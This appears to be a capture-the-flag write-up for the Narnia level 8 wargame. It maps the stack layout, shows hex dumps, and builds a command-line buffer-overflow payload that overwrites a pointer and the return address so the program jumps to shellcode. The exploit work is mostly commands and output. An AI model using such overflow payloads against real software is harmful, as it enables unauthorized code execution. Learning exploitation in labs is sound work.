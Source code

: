 That's it. 

```
                   Bytes
Bok                - 20  - 20 * A 
????               - 4  ???? is probably *blab,you look at .c file b assigned to blah, in mem also its next to AAAA
EBP                - 4 AAAA
Return Addr        - 4 0xffffd51c

We want to points return Address to 0xffffd51c (shellcode address)
```

```
narnia8@gibson:/narnia$ ./narnia8 $(echo -e "AAAAAAAAAAAAAAAAAAAA") | xxd
00000000: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000010: 4141 4141 0bd5 ffff d8d2 ffff 0192 0408  AAAA............
00000020: 0bd5 ffff 0a                             .....
```

```
                   Bytes
Bok                - 20  - 20 * A 
????               - 4  ???? is 0xffffd50b 
EBP                - 4 AAAA
Return Addr        - 4 has to be 0xffffd51c

There are 12 Bytes (4+4+4) means Blah decreases by 12 Hex value as we know before. 
0xffffd50b decrease by 1 --> 12 times
0xffffd4ff new mem address
```

```
                   Bytes
Bok                - 20  - 20 * A 
????               - 4  ???? is 0xffffd4ff
EBP                - 4 AAAA
Return Addr        - 4 0xffffd51c

"AAAAAAAAAAAAAAAAAAAA" + "\xff\xd4\xff\xff" + "AAAA" + "\x1c\xd5\xff\xff"
```

```
./narnia8 $(echo -e "AAAAAAAAAAAAAAAAAAAA\xff\xd4\xff\xffAAAA\x1c\xd5\xff\xff")
AAAAAAAAAAAAAAAAAAAA����AAAA,�������
Segmentation fault (core dumped)
```

Let's move return address slightly in order to get mid of in-between nop `x1c\xd5\xff\xff` to `\x3c\xd5\xff\xff`

```
./narnia8 $(echo -e "AAAAAAAAAAAAAAAAAAAA\xff\xd4\xff\xffAAAA\x3c\xd5\xff\xff")
```
``
<img src="img/Pasted image 20240724205358.png" alt="Example Image" width="1080"/>
